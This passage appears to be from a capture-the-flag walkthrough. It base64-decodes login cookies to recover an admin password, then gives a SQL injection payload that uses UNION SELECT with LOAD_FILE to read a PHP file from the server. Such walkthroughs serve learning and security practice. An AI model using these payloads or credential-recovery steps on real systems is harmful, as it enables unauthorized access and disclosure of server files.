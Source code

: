 ```bash
# Raw cookies
username=YWRtaW4%3D
password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D

# URL Decoded
username=YWRtaW4=
password=SG9wZWxlc3Nyb21hbnRpYw==

# base64 Decoded
$ echo YWRtaW4= | base64 -d
admin%

$ echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d
Hopelessromantic%
```

`admin:Hopelessromantic` are the admin credentials.


term=1' UNION SELECT 1, LOAD_FILE('c:/xampp/htdocs/admin/backdoorchecker.php'), 3 -- -


![](img/2020-11-25-17-35-33.png)
